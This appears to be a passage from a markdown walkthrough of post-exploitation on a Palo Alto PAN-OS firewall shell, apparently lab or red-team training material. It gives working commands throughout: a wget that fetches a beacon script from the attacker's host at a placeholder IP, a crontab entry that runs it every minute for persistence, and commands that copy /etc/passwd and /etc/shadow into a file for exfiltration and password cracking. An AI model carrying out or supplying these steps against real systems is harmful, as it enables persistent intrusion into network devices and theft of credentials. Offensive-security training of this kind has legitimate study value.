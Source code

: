 ## Phase 2: Palo Persistence

- `Ctrl-Z` OR `Ctrl-C` **WILL KILL YOUR SHELL**
- Palo Alto Shell has limited functionality
- **Tab autocompletion and the up/down arrow keys won’t work**
- The first priority is to establish persistence using a cron job and the pan_os_comm.py script you created earlier.

1. Start by running some basic enumeration commands to get a sense of your current environment on the machine.

   - (response should be "root")

```bash
whoami 
pwd
cd ~
ls
```

2. Next, import the `pan_os_comm.py` script from your attack machine, where it is being hosted via the web server.
   `wget -O /usr/local/bin/pan_os_comm.py http://<IP_of_your_attack_box>:<port>/pan_os_comm.py`

3. To ensure that the file has been successfully downloaded and is executable, run:
   `ls -l /usr/local/bin | grep pan_os`

4. Once you’ve confirmed the script is there, it’s time to set up the cron job to maintain persistence. To add the cron job, execute the following command:

```bash
(crontab -l 2>/dev/null; echo "* * * * * /usr/bin/python3 /usr/local/bin/pan_os_comm.py >/dev/null 2>&1") | crontab -
```

NOTE- This will add a cron job that runs every minute, calling your pan_os_comm.py script and sending a beacon to your second listener.

6. To check that your cron job has been successfully added, run the following:
   `crontab -l`
NOTE- This should display the current cron jobs, confirming that the job was added. The cron job will send a beacon to your listener every minute, ensuring that even if you lose access, you can reopen the listener using the same port, and it will catch the beacon again.

## Phase 3: Enumeration and Exfil

Now that we have a way to return to the system, let’s gather critical files containing sensitive data, which can be exfiltrated and reviewed offline for password cracking.

1. We’ll start by viewing some important files and saving them to a new document for exfiltration:

`UTILIZING THE CALL BACK BEACON- NOT THE EXPLOIT SHELL`

```bash
cd ~
cat /etc/passwd > users.txt
cat /etc/shadow >> users.txt  # Notice the '>>', it appends the content of /etc/shadow
cat /etc/hosts >> users.txt   # Append /etc/hosts to the same file
```
